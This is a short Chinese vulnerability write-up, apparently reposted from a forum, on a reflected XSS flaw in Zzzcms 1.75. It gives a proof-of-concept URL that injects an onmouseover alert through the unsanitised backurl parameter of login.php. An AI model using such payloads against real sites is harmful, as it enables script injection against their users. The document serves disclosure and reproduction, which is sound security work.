


# Zzzcms 1.75 xss漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3319](https://www.zhihuifly.com/t/topic/3319)

# Zzzcms 1.75 xss漏洞

## 一、漏洞简介

## 二、漏洞影响

Zzzcms 1.75

## 三、复现过程

```
http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d 
```

该onmouseover事件在移动到登录注册时会触发



对传入的backurl并没有做任何防护

